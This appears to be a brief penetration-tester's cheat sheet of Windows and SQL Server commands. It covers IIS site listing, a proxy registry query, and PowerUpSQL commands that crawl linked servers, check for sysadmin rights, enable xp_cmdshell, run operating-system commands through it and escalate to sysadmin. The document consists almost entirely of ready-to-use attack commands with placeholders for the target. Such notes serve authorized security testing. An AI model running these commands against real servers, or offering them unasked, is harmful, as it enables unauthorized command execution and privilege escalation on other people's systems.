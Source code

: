 ## IIS List sites
```
appcmd.exe list site
```

## IIS List Virtual Directory
```
appcmd.exe list vdir
```

## Check Proxy (ProxyEnable, ProxyServer)
Ch3
```
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v proxy*
```

# PowerUpSQL
https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet

## PowerUpSQL SQLServerLinkCrawl
```
Get-SQLServerLinkCrawl -Instance <sqlserver> | format-table
```

## PowerUpSQL Check current user
```
Get-SQLQuery -Instance <sqlserver> -Query "SELECT SYSTEM_USER;"
```

## PowerUpSQL Check is sysadmin
```
Get-SQLQuery -Instance <sqlserver> -Query "SELECT IS_SRVROLEMEMBER('sysadmin');"
```

## PowerUpSQL Enable xp_cmdshell
```
Get-SQLQuery -Instance <sqlserver> -Query "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"
```

## PowerUpSQL Execute xp_cmdshell
```
Invoke-SQLOSCmd -Verbose -Instance <sqlserver> -Command "<cmd>"
```


## PowerUpSQL Escalate to sysadmin
```
Invoke-SQLEscalatePriv -Verbose -Instance <sqlserver>
```
